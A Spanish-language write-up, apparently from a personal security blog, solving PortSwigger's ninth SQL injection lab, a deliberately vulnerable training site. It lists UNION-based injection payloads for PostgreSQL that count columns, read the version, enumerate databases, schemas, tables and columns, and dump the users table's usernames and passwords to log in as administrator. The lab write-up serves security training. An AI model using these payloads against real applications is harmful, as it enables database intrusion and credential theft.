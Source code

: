```yaml
---
title: SQLI Lab 9
date: 2024-11-15 12:39:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving data from other tables
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-9/Portswigger.png
---
```


## Skills

- SQL injection UNION attack, retrieving data from other tables

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-9/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-9/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-9/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-9/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-9/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle` debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-9/image_6.png)

`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-9/image_7.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-9/image_8.png)

`Listamos` todos los `esquemas` para la `base de datos actual`

```
/filter?category='+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-9/image_9.png)

`Listamos` el `nombre` de las `tablas` del esquema `public`

```
/filter?category='+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-9/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-9/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+username,password+from+users--+-+
```

![](/assets/img/SQLI-Lab-9/image_12.png)

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-9/image_13.png)
